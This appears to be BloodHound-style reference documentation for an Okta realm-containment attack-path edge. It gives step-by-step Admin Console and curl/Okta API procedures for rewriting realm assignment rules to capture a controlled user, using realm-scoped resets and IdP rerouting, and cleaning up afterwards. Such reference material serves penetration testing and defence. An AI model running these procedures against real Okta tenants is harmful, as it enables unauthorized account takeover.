

## General Information

The traversable Okta_RealmContains edges represent containment relationships between realms and the users assigned to those realms.


```mermaid
graph LR
	r1("Okta_Realm EU")
	r2("Okta_Realm US")
	u1("Okta_User john\@contoso.com")
	u2("Okta_User alice\@contoso.com")
	u3("Okta_User bob\@contoso.com")
	r1 -- Okta_RealmContains --> u1
	r1 -- Okta_RealmContains --> u2
	r2 -- Okta_RealmContains --> u3
```

> [!NOTE]
> Okta Realms are currently not supported by BloodHound due to licensing restrictions.

## Abuse Info

`Okta_RealmContains` is a realm membership fact, not a credential by itself. An attacker who controls the source realm, a realm assignment rule, or a role scoped to that realm can affect the destination user by changing which policies, IdP routing decisions, delegated administrators, and profile-source rules apply to that user.

To abuse this edge from realm-level control:

1. Identify the destination user and confirm the user's `realmId` matches the source realm.
2. Identify which controls are realm-aware in the tenant, such as realm assignments, realm-scoped IdP routing, profile enrollment, sign-on policies, or delegated admin scopes.
3. If the attacker controls realm assignment logic, update the assignment expression or profile-source condition so the destination user remains in the source realm while a controlled user is also moved into the same realm.
4. If the attacker controls a realm-scoped admin role, use the role's derived edge against the destination user, such as `Okta_ResetPassword`, `Okta_ResetFactors`, `Okta_GroupAdmin`, or `Okta_HelpDeskAdmin`.
5. If the attacker controls IdP routing or policy for the realm, route the destination user's next sign-in through a weaker or attacker-controlled IdP, or reduce the authenticator requirements for that realm.
6. Trigger the policy or assignment to re-evaluate by executing the realm assignment, updating the user's profile attribute used in the rule, or waiting for the next profile-source sync/sign-in.
7. Use the resulting session, reset, group membership, or application assignment to continue the path.

Using the Admin Console:

1. Sign in as an administrator with realm, profile-source, policy, or delegated-admin authority.
2. Open the realm configuration and identify the source realm from the edge.
3. Review realm assignment rules and note the profile source and expression that place users in the source realm.
4. Adjust the smallest applicable control: add a controlled user to the realm, update the realm assignment expression, change a realm-scoped policy, or adjust realm-scoped IdP routing.
5. Execute or reprocess the realm assignment if the UI offers that action, or trigger the profile-source sync that applies the rule.
6. Verify the destination user and controlled user receive the expected realm-specific policy or delegated-admin path.
7. Perform the concrete action represented by the adjacent edge, such as resetting credentials, adding group membership, or routing a sign-in through an attacker-controlled IdP.

Using the Okta API:

1. Set variables for the realm, destination user, realm assignment, and a profile value that temporarily satisfies the realm assignment expression.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export REALM_ID="vvrc..."
    export REALM_ASSIGNMENT_ID="rul..."
    export TARGET_USER_ID="00u..."
    export CONTROLLED_USER_ID="00u..."
    export TEMP_REALM_EXPRESSION='user.profile.department=="RealmOps"'
    ```

2. Confirm the destination user is contained by the source realm and capture the current realm assignment.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID" \
      | jq '{id, status, login: .profile.login, realmId}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/realm-assignments/$REALM_ASSIGNMENT_ID" \
      | tee /tmp/okta-realm-assignment-original.json
    ```

3. Replace the realm assignment with an expression that also captures the controlled user. The exact expression is tenant-specific; preserve the original `profileSourceId`, `name`, and `priority`.

    ```bash
    jq --arg realm "$REALM_ID" --arg expr "$TEMP_REALM_EXPRESSION" '
      .actions.assignUserToRealm.realmId = $realm |
      .conditions.expression.value = $expr |
      del(.id, .created, .lastUpdated, .domains, .isDefault, .status, ._links)
    ' /tmp/okta-realm-assignment-original.json > /tmp/okta-realm-assignment-abuse.json

    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d @/tmp/okta-realm-assignment-abuse.json \
      "$OKTA_ORG/api/v1/realm-assignments/$REALM_ASSIGNMENT_ID"
    ```

    A successful replacement returns `200 OK` with the updated assignment.

4. Execute the assignment so Okta re-evaluates users for the source realm.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"assignmentId\":\"$REALM_ASSIGNMENT_ID\"}" \
      "$OKTA_ORG/api/v1/realm-assignments/operations" \
      | tee /tmp/okta-realm-assignment-operation.json

    jq '{id, type, status, realmId, realmName, numUserMoved}' /tmp/okta-realm-assignment-operation.json
    ```

    A successful request returns `201 Created` and an operation object.

5. Verify the controlled user is now in the source realm, then use the adjacent realm-scoped privilege.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID" \
      | jq '{id, status, login: .profile.login, realmId}'
    ```

## Cleanup after Abuse

Cleanup for `Okta_RealmContains` restores the realm assignment or realm-scoped control that was changed, moves any temporarily captured users back to their intended realm, and removes the user-level access created through the realm-specific path.

Cleanup using Admin Console:

1. Restore the original realm assignment expression, profile-source condition, realm-scoped policy, delegated-admin scope, or IdP routing rule.
2. Re-run the realm assignment or source sync so temporary realm membership is recalculated.
3. Remove any temporary group memberships, app assignments, authenticators, or user profile changes created through the realm-scoped access.
4. Revoke sessions for any controlled or destination users who authenticated under the temporary realm state.
5. Verify the destination user and controlled user have the expected `realmId` and receive the intended policy set.

Cleanup using API:

1. Restore the saved realm assignment.

    ```bash
    jq '
      del(.id, .created, .lastUpdated, .domains, .isDefault, .status, ._links)
    ' /tmp/okta-realm-assignment-original.json > /tmp/okta-realm-assignment-restore.json

    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d @/tmp/okta-realm-assignment-restore.json \
      "$OKTA_ORG/api/v1/realm-assignments/$REALM_ASSIGNMENT_ID"
    ```

2. Execute the restored assignment.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"assignmentId\":\"$REALM_ASSIGNMENT_ID\"}" \
      "$OKTA_ORG/api/v1/realm-assignments/operations" \
      | jq '{id, status, realmId, numUserMoved}'
    ```

3. Remove temporary group membership or app assignment created after realm control was abused.

    ```bash
    export TEMP_GROUP_ID="00g..."
    export TEMP_APP_ID="0oa..."

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TEMP_GROUP_ID/users/$CONTROLLED_USER_ID"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TEMP_APP_ID/users/$CONTROLLED_USER_ID"
    ```

4. Revoke sessions and OAuth tokens for users who authenticated under the temporary realm state.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify realm membership is back to the intended state.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID" \
      | jq '{id, login: .profile.login, realmId}'
    ```

## Opsec Considerations

`Okta_RealmContains` itself is graph metadata. Abuse creates telemetry from realm assignment replacement/execution, user profile updates, group/app membership changes, IdP routing changes, password or factor resets, and new sign-ins under the affected realm policy. Realm APIs are licensing-dependent, so defenders should also review source-system or governance logs that feed realm assignment conditions.

## References

- [Okta Realms API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Realm/)
- [Okta Realm Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RealmAssignment/)
- [Okta Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/User/)
- [Okta Group API: Unassign a user from a group](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/#tag/Group/operation/unassignUserFromGroup)
- [Okta Application Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationUsers/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
